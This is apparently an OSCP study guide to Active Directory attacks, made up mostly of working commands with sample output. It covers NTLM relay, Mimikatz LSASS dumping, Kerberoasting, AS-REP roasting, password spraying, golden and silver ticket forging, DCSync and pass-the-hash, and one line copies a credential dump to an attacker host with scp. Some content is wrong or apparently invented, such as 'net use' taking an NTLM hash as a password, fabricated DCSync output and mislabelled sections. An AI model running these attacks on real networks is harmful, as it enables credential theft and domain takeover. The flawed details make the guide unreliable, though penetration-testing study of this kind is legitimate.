





## Active Directory Authentication: The Foundation

Active Directory relies on two primary authentication protocols: **NTLM** (legacy, challenge-response) and **Kerberos** (modern, ticket-based). Understanding how they work, where credentials are stored, and how they can be abused is critical for OSCP-level AD exploitation. This guide covers every major authentication attack vector with real-world commands, outputs, and attack flows.

> {: .prompt-tip }
> **OSCP Focus:** The exam heavily tests credential dumping, PtH/OPtH, Kerberoasting, AS-REP Roasting, and basic ticket manipulation. Master the commands, understand the underlying protocols, and practice in a lab environment.

---

## NTLM Authentication Deep Dive

NTLM (NT LAN Manager) is a challenge-response authentication protocol. It's stateless, doesn't require a central ticket server, and is vulnerable to relay and offline cracking attacks.

### NTLM Authentication Flow



### NTLM Hash Format
```text
LM Hash (deprecated):  AAD3B435B51404EEAAD3B435B51404EE
NT Hash:               8846F7EAEE8FB117AD06BDD830B7586C
Format:                <LM>:<NT>
Example:               AAD3B435B51404EEAAD3B435B51404EE:8846F7EAEE8FB117AD06BDD830B7586C
```

### Linux: NTLM Relay Attack
```bash
sudo responder -I eth0 -dwv
```
**Output:**
```text
[+] Listening for events...
[LLMNR]  Poisoned answer sent to 10.10.10.15 for name web01
[SMB]    NTLMv2-SSP Client   : 10.10.10.15
[SMB]    NTLMv2-SSP Username : CORP\jdoe
[SMB]    NTLMv2-SSP Hash     : jdoe::CORP:1122334455667788:99AABBCCDDEEFF00:0101000000000000...
```

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```
**Output:**
```text
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 10.10.10.15, attacking target smb://10.10.10.20
[*] Authenticating against smb://10.10.10.20 as CORP\jdoe SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Executing command: whoami
[*] Command executed successfully: corp\jdoe
```

### Windows: NTLM Hash Extraction & Usage
```cmd
mimikatz.exe privilege::debug "sekurlsa::logonpasswords"
```
**Output:**
```text
Authentication Id : 0 ; 45210 (00000000:0000b09a)
Session           : Interactive from 2
User Name         : jdoe
Domain            : CORP
Logon Server      : DC01
        msv :
         [00000003] Primary
         * Username : jdoe
         * Domain   : CORP
         * NTLM     : a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
```

```cmd
net use \\10.10.10.20\ADMIN$ /user:CORP\jdoe /pass:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
```
**Output:**
```text
The command completed successfully.
```

> {: .prompt-tip }
> NTLM is being phased out in favor of Kerberos, but remains enabled for backward compatibility. Always check `SMB Signing` status. If `False`, NTLM relay is possible. OSCP frequently tests NTLM relay and hash-based authentication.

---

## Kerberos Authentication Deep Dive

Kerberos is a ticket-based, symmetric-key authentication protocol. It eliminates password transmission over the network and uses a trusted third party (Key Distribution Center - KDC) running on the Domain Controller.

### Kerberos Authentication Flow



### Key Kerberos Components
| Component | Purpose |
|-----------|---------|
| **KDC** | Runs on DC, contains AS & TGS |
| **TGT** | Ticket Granting Ticket, proves identity to KDC |
| **TGS** | Ticket Granting Service, issues service tickets |
| **SPN** | Service Principal Name, unique identifier for services |
| **PAC** | Privilege Attribute Certificate, contains user SID & group memberships |
| **KRBTGT** | Special account that signs all TGTs. Compromise = Golden Ticket |

### Linux: Kerberoasting (SPN Abuse)
```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.10 corp.local/jdoe:Password123!
```
**Output:**
```text
ServicePrincipalName                  Name           MemberOf                                                  PasswordLastSet      LastLogon           
------------------------------------  -------------  --------------------------------------------------------  -------------------  -------------------
MSSQLSvc/DB01.corp.local:1433         svc_sql        CN=Domain Users,CN=Users,DC=corp,DC=local                 2023-11-15 14:22:10  2024-01-20 08:15:33

$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/DB01.corp.local:1433*$8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d$1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b
```

```bash
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt
```
**Output:**
```text
$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/DB01.corp.local:1433*$8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d$1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b:Summer2023!
```

### Windows: Kerberoasting with Rubeus
```powershell
Rubeus.exe kerberoast /outfile:hashes.txt /nowrap
```
**Output:**
```text
[*] Action: Kerberoasting
[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] SamAccountName         : svc_sql
[*] DistinguishedName      : CN=svc_sql,OU=ServiceAccounts,DC=corp,DC=local
[*] ServicePrincipalName   : MSSQLSvc/DB01.corp.local:1433
[*] PwdLastSet             : 11/15/2023 2:22:10 PM
[*] LastLogon              : 1/20/2024 8:15:33 AM
[*] Hash                   : $krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/DB01.corp.local:1433*$8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d$1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b
```

> {: .prompt-tip }
> Kerberos is secure by design, but misconfigurations (weak service passwords, unconstrained delegation, missing SPN validation) create exploitable paths. The OSCP exam tests Kerberoasting, AS-REP Roasting, and basic ticket abuse.

---

## Cached Credentials & LSASS Memory

Windows caches credentials locally to allow logon when disconnected from the domain. These are stored in the registry and LSASS process memory.

### LSASS Memory Structure



### Linux: Offline LSASS Dump & Analysis
```bash
# Dump LSASS memory
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

# Transfer to Linux
scp lsass.dmp attacker@10.10.14.5:/tmp/

# Analyze with Mimikatz
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```
**Output:**
```text
mimikatz(commandline) # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'
mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 45210 (00000000:0000b09a)
Session           : Interactive from 2
User Name         : jdoe
Domain            : CORP
Logon Server      : DC01
        msv :
         [00000003] Primary
         * Username : jdoe
         * Domain   : CORP
         * NTLM     : a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
        wdigest :
         * Username : jdoe
         * Domain   : CORP
         * Password : Summer2023!
        kerberos :
         * Username : jdoe
         * Domain   : CORP.LOCAL
```

### Windows: Cached Credentials Extraction
```cmd
mimikatz.exe privilege::debug "lsadump::cache"
```
**Output:**
```text
Domain : CORP
SysKey : 8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d
Local SID : S-1-5-21-1234567890-1234567890-1234567890

* Username : jdoe
  Domain   : CORP
  DCC2 Hash: $DCC2$10240#jdoe#8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d
```

> {: .prompt-tip }
> LSASS dumping requires `SeDebugPrivilege` (Administrator). Modern EDRs flag `sekurlsa::logonpasswords`. Use `procdump64.exe -accepteula -ma lsass.exe lsass.dmp` then analyze offline. Cached credentials use MSCACHE v2 format (Hashcat mode 2100).

---

## Credential Acquisition & Abuse

### Step-by-Step: Password Spraying
```bash
# Linux: NetExec
netexec smb 10.10.10.0/24 -u users.txt -p 'Password123!' --continue-on-success
```
**Output:**
```text
SMB         10.10.10.10     445    DC01             [+] CORP\jdoe:Password123! (Pwn3d!)
SMB         10.10.10.15     445    FILE01           [+] CORP\jdoe:Password123! (Pwn3d!)
SMB         10.10.10.20     445    WEB01            [-] CORP\asmith:Password123! STATUS_LOGON_FAILURE
```

### Step-by-Step: AS-REP Roasting
```bash
# Linux: Impacket
impacket-GetNPUsers corp.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt -dc-ip 10.10.10.10
```
**Output:**
```text
[*] Getting TGT for jdoe
$krb5asrep$23$jdoe@CORP.LOCAL:8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d$1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2b
```
```bash
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
**Output:**
```text
$krb5asrep$23$jdoe@CORP.LOCAL:8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d$...:Winter2024!
```

### Windows: AS-REP Roasting with Rubeus
```powershell
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt /dc:10.10.10.10
```
**Output:**
```text
[*] Action: AS-REP Roasting
[*] Target Domain          : corp.local
[*] Target DC              : 10.10.10.10

[*] SamAccountName         : jdoe
[*] DistinguishedName      : CN=jdoe,CN=Users,DC=corp,DC=local
[*] UserAccountControl     : 4194304 (DONT_REQ_PREAUTH)
[*] Hash                   : $krb5asrep$23$jdoe@CORP.LOCAL:8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d$1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d...
```

---

## Ticket Forging: Silver & Golden

### Silver vs Golden Ticket Comparison

| Feature | Silver Ticket | Golden Ticket |
|---------|---------------|---------------|
| **Target** | Specific service (SPN) | Entire domain (TGT) |
| **Required Hash** | Service account NTLM | `krbtgt` NTLM |
| **Scope** | Single machine/service | Domain-wide |
| **Persistence** | Survives service password change | Survives all password changes |
| **Detection** | Service logs, unusual SPN access | KDC logs, ticket lifetime anomalies |

### Step-by-Step: Silver Ticket (Linux)
```bash
# 1. Get service account hash via Kerberoasting or DCSync
# 2. Forge ticket
impacket-ticketer -spn MSSQLSvc/DB01.corp.local:1433 -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -domain corp.local -nthash 8846F7EAEE8FB117AD06BDD830B7586C -user-id 1105 svc_sql
```
**Output:**
```text
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for corp.local/svc_sql
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Saving ticket in svc_sql.ccache
```

```bash
export KRB5CCNAME=svc_sql.ccache
impacket-psexec corp.local/svc_sql@DB01.corp.local -k -no-pass
```
**Output:**
```text
[*] Requesting shares on DB01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file XyZ123.exe
[*] Opening SVCManager on DB01.corp.local.....
[*] Creating service XyZ123 on DB01.corp.local.....
[*] Starting service XyZ123.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4737]
C:\Windows\system32> whoami
corp\svc_sql
```
### Step-By-Step: Silver Ticket(Windows)
```text
.\mimikatz.exe privilege::debug "kerberos::golden /domain:corp.local /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /user:Administrator /service:CIFS /target:SQL01.inlanefreight.local /ptt" exit
```


### Step-by-Step: Golden Ticket (Windows)
```cmd
# 1. Extract krbtgt hash via DCSync
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:krbtgt" exit
```
**Output:**
```text
[DC] 'corp.local' will be the domain
[DC] 'krbtgt' will be the user account
[DC] Exporting domain to file 'krbtgt.dit'
[DC] Retrieving krbtgt NTLM hash: 8846f7eaee8fb117ad06bdd830b7586c
```

```cmd
# 2. Forge Golden Ticket
mimikatz.exe "kerberos::golden /user:administrator /domain:corp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:8846f7eaee8fb117ad06bdd830b7586c /id:500 /groups:512,513,518,520 /ptt" exit
```
**Output:**
```text
User      : administrator
Domain    : corp.local (CORP)
SID       : S-1-5-21-1234567890-1234567890-1234567890
User Id   : 500
Groups Id : *512 513 518 520
ServiceKey: 8846f7eaee8fb117ad06bdd830b7586c - rc4_hmac_nt
Lifetime  : 2/5/2024 10:00:00 AM ; 2/5/2034 10:00:00 AM
RenewMax  : 2/12/2034 10:00:00 AM
-> Ticket : ** Pass The Ticket **
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart signed
 * KrbCred generated
 * Golden ticket for 'administrator @ corp.local' successfully submitted for current session
```

```cmd
# 3. Access DC
dir \\DC01.corp.local\C$
```
**Output:**
```text
 Volume in drive \\DC01.corp.local\C$ has no label.
 Volume Serial Number is 1A2B-3C4D

 Directory of \\DC01.corp.local\C$

02/05/2024  10:15 AM    <DIR>          PerfLogs
02/01/2024  08:30 AM    <DIR>          Program Files
02/01/2024  08:30 AM    <DIR>          Program Files (x86)
02/05/2024  09:45 AM    <DIR>          Users
02/05/2024  10:00 AM    <DIR>          Windows
```

> {: .prompt-tip }
> **Silver Ticket** = Service-specific. **Golden Ticket** = Domain-wide. Golden requires `krbtgt` hash. Both bypass normal authentication and survive password changes. OSCP tests Silver/Golden concepts via Rubeus/Impacket/Mimikatz.

---

## Domain Controller Synchronization (DCSync)

DCSync abuses the `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` privileges to mimic a Domain Controller and request password hashes for any user.

### Required Privileges
- `Domain Admins`
- `Enterprise Admins`
- `Backup Operators` (sometimes)
- Custom ACL with replication rights

### Step-by-Step: DCSync (Linux)
```bash
impacket-secretsdump corp.local/administrator:Password123!@10.10.10.10
```
**Output:**
```text
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
jdoe:1105:aad3b435b51404eeaad3b435b51404ee:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6:::
asmith:1106:aad3b435b51404eeaad3b435b51404ee:b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7:::
svc_backup:1107:aad3b435b51404eeaad3b435b51404ee:c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8:::
[*] Cleaning up...
```

### Step-by-Step: DCSync (Windows)
```cmd
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:Administrator" exit
```
**Output:**
```text
[DC] 'corp.local' will be the domain
[DC] 'Administrator' will be the user account
[DC] Exporting domain to file 'Administrator.dit'
[DC] Retrieving Administrator NTLM hash: 8846f7eaee8fb117ad06bdd830b7586c
[DC] Retrieving Administrator LM hash: aad3b435b51404eeaad3b435b51404ee
```

> {: .prompt-tip }
> DCSync leaves minimal logs but triggers Event ID 4662 (Object Access) and 5136 (Directory Service Object Modified). It's the fastest path to `krbtgt` hash → Golden Ticket → Full domain compromise. OSCP frequently tests DCSync via Impacket or Mimikatz.

---

## Lateral Movement: PtH vs OPtH vs PSRemoting/WinRM

### Protocol & Authentication Map



### Pass-the-Hash (PtH)
Uses NTLM hash directly for SMB/RPC authentication. Works on NTLM-based services.

**Linux:**
```bash
impacket-psexec corp.local/jdoe@10.10.10.15 -hashes :a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
```
**Output:**
```text
[*] Requesting shares on 10.10.10.15.....
[*] Found writable share ADMIN$
[*] Uploading file XyZ123.exe
[*] Opening SVCManager on 10.10.10.15.....
[*] Creating service XyZ123 on 10.10.10.15.....
[*] Starting service XyZ123.....
[!] Press help for extra shell commands
C:\Windows\system32> whoami
corp\jdoe
```

**Windows:**
```cmd
mimikatz.exe "sekurlsa::pth /user:jdoe /domain:corp.local /ntlm:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /run:cmd.exe"
```
**Output:**
```text
user    : jdoe
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
  |  PID  4520
  |  TID  4524
  |  LSA Process is now R/W
  |  LUID 0 ; 996 (00000000:000003e4)
  \_ msv1_0   - data copy @ 000001A2B3C4D5E6 : OK !
  \_ kerberos - data copy @ 000001A2B3C4D5E6 : OK !
```

### Overpass-the-Hash (OPtH)
Converts NTLM hash to Kerberos TGT, then uses Kerberos for authentication. Required for WinRM/PSRemoting.

**Windows (Mimikatz):**
```cmd
mimikatz.exe "sekurlsa::pth /user:jdoe /domain:corp.local /ntlm:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /run:powershell.exe"
```
**Output:**
```text
[New PowerShell window opens with Kerberos TGT injected]
PS C:\> klist
Current LogonId is 0:0xb09a
Cached Tickets: (1)
#0>     Client: jdoe @ CORP.LOCAL
        Server: krbtgt/CORP.LOCAL @ CORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/5/2024 10:30:00 (local)
        End Time:   2/5/2024 20:30:00 (local)
        Renew Time: 2/12/2024 10:30:00 (local)
```

**Windows (Rubeus):**
```powershell
Rubeus.exe asktgt /user:jdoe /domain:corp.local /rc4:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6 /ptt
```
**Output:**
```text
[*] Action: Ask TGT
[*] Using rc4_hmac hash: a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
[*] Building AS-REQ (w/ preauth) for: 'corp.local\jdoe'
[*] Using domain controller: 10.10.10.10
[+] TGT request successful!
[*] base64(ticket.kirbi): doIF... [truncated]
[*] Action: Import Ticket
[+] Ticket successfully imported!
```

### PowerShell Remoting & WinRM

| Tool | Protocol | Auth Type | OSCP Relevance |
|------|----------|-----------|----------------|
| `Enter-PSSession` | WinRM (5985/5986) | Kerberos/NTLM | High |
| `Invoke-Command` | WinRM | Kerberos/NTLM | High |
| `winrs` | WinRM | NTLM/Kerberos | Medium |
| `evil-winrm` | WinRM | NTLM/Hash/Kerberos | High (Linux) |

#### Windows: Enter-PSSession
```powershell
Enter-PSSession -ComputerName FILE01.corp.local -Credential CORP\jdoe
```
**Output:**
```text
[FILE01.corp.local]: PS C:\Users\jdoe\Documents> whoami
corp\jdoe
[FILE01.corp.local]: PS C:\Users\jdoe\Documents> hostname
FILE01
[FILE01.corp.local]: PS C:\Users\jdoe\Documents> exit
```

#### Windows: Invoke-Command
```powershell
Invoke-Command -ComputerName FILE01.corp.local -ScriptBlock { whoami; hostname; ipconfig } -Credential CORP\jdoe
```
**Output:**
```text
corp\jdoe
FILE01

Windows IP Configuration

Ethernet adapter Ethernet0:
   Connection-specific DNS Suffix  . : corp.local
   IPv4 Address. . . . . . . . . . . : 10.10.10.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.1
```

#### Windows: winrs
```cmd
winrs -r:FILE01.corp.local -u:CORP\jdoe -p:Password123! "whoami && hostname && systeminfo | findstr /B /C:"OS Name" /C:"OS Version""
```
**Output:**
```text
corp\jdoe
FILE01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
```

#### Linux: evil-winrm (Password)
```bash
evil-winrm -i 10.10.10.15 -u jdoe -p 'Password123!'
```
**Output:**
```text
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
corp\jdoe
*Evil-WinRM* PS C:\Users\jdoe\Documents> hostname
FILE01
*Evil-WinRM* PS C:\Users\jdoe\Documents> exit
```

#### Linux: evil-winrm (Hash / OPtH equivalent)
```bash
evil-winrm -i 10.10.10.15 -u jdoe -H a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
```
**Output:**
```text
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> whoami
corp\jdoe
*Evil-WinRM* PS C:\Users\jdoe\Documents> Get-NetUser | Select-Object samaccountname
samaccountname
--------------
Administrator
jdoe
asmith
svc_backup
```

> {: .prompt-tip }
> **PtH** = NTLM only (SMB/RPC). **OPtH** = Converts hash → Kerberos TGT → Enables WinRM/PSRemoting. OSCP requires knowing when to use which. WinRM runs on port 5985 (HTTP) or 5986 (HTTPS). Always check `Test-WSMan` before attempting PSRemoting. `evil-winrm` is the Linux standard for WinRM exploitation.

---

## AD Authentication Attack Decision Tree



---

## References

- [Microsoft — Kerberos Protocol Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/)
- [Microsoft — NTLM Authentication Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/)
- [HarmJ0y — PowerView & AD Cheatsheets](https://github.com/HarmJ0y/CheatSheets)
- [Impacket — Official Examples & Documentation](https://github.com/fortra/impacket)
- [Rubeus — Kerberos Abuse Toolkit](https://github.com/GhostPack/Rubeus)
- [NetExec — AD Enumeration & Execution](https://www.netexec.wiki/)
- [HackTricks — Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [MITRE ATT&CK — Credential Access & Lateral Movement](https://attack.mitre.org/tactics/TA0006/)
- [OSCP Exam Guide — Active Directory Section](https://www.offsec.com/courses/pen-200/)

---

*Last updated: February 5, 2024*
*Author: Security Researcher*
*License: MIT*
